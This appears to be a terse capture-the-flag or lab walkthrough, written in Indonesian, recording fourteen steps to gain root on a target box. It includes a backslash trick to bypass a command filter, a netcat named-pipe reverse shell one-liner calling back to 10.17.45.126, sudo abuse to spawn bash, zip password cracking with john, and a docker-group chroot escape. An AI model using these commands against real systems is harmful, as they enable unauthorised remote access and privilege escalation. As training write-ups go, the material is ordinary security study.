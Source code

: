 1. scan namp 21 22 80 masuk -> ftp anonymous allow get aja file nya
2. ada pesan tuh -> fuzz dir ada path yg bisa execute command tapi di filter
3. bypass filternya pake \ ternyata -> l\s -la
4. revshell gini -> r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.17.45.126 6060 >/tmp/f
5. filter command awal doang dah keknya 
6. di linpeas nemu service disini -> 127.0.0.1:9001 -> sama nemu authorized_keys
7. gada apa apa ternyata -> di apaar ada file sh -> sudo -l disitu aja bisa
8. baca code nya -> read 2 dia baca command -> sudo -u namauser jalanin_yg_disudo-L -> pas read 2 /bin/bash
9. pake python3 server aja ambil file nya yang di /var/www/files disitu ada webportal download image nya 
10. di steghide extract ada isinya -> tapi butuh passwd -> zip2john nama.zip > hash
11. john hash --wordlist=rockyou -> ada sourcecode base64 passwd
12. dapet creds di zip isinya -> cek pake id -> masuk groups docker
13. docker run -v /:/mnt --rm -it alpine chroot /mnt sh
14. klaim root
